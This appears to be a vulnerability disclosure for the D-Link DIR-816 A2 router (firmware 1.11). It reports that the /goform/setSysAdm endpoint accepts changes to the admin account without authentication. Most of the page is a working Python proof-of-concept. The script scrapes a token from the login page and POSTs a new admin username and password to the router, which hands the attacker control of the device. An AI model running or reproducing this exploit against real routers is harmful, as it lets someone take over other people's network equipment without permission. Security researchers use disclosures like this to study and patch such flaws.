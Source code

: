 # D-Link DIR-816 A2 Edit Web And System Account Without Authentication

**Vender**：D-Link

**Firmware version**: 1.11

**Hardware version**: DIR-816 A2

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

Attack can use a API URL "/goform/setSysAdm" to edit web and system account without authentication.

## POC

![](poc.png)
v
Change web and system user password:
```python
# !/usr/bin/env python2
# coding=utf-8
import requests


def get_token_id(target_ip):
    """

    :param target_ip: router ip address.
    :return: tokenid
    """
    url = "http://{}/dir_login.asp".format(target_ip)
    rsp = requests.get(url, allow_redirects=False)
    rsp_list = rsp.text.split()
    tokenid = None
    for i in range(len(rsp_list)):
        if 'name="tokenid"' in rsp_list[i]:
            tokenid = int(rsp_list[i + 1].split('=')[1][1:-1])
            break
    return tokenid


def send_from_request(target_ip, from_name, data):
    """

    :param target_ip: router ip address.
    :param from_name: from_name to request
    :param data: post data in json format.
    :return:
    """
    url = "http://{}/goform/{}".format(target_ip, from_name)
    rsp = requests.post(url, data=data, allow_redirects=False, timeout=1)
    return rsp.text


if __name__ == '__main__':
    target_ip = "192.168.0.1"
    token_id = get_token_id(target_ip)
    if token_id:
        username = "Admin"
        password = "zaq12wsx"
        from_name = "setSysAdm"
        from_data = {"admuser": username, "admpass": password, "tokenid": token_id}
        send_from_request(target_ip, from_name, from_data)

```
